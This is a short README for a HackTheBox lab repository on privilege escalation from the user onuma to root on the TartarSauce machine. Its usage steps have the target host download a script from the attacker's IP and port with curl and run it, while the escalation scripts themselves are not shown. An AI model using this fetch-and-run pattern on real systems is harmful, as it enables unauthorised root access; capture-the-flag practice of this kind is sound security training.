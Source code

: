 # HackTheBox Environment
- Macine: [TartarSauce](https://app.hackthebox.com/machines/TartarSauce)
- Info: HackTheBox TartarSauce, Privilege Escalation process from onuma to root.

# Usage

change your own local ip and port before executing these scripts.

- local host
```
git clone https://github.com/zhsh9/HTB-TartarSauce-PrivEsca.git --depth 1
cd HTB-TartarSauce-PrivEsca
chmod +x local.sh
./local.sh
```

- remote host
```bash
curl -O http://<IP>:<PORT>/remote.sh
chmod +x remote.sh
./remote.sh
```

# Screenshot

![local](./screenshot/local.jpg)

![remote](./screenshot/remote.jpg)

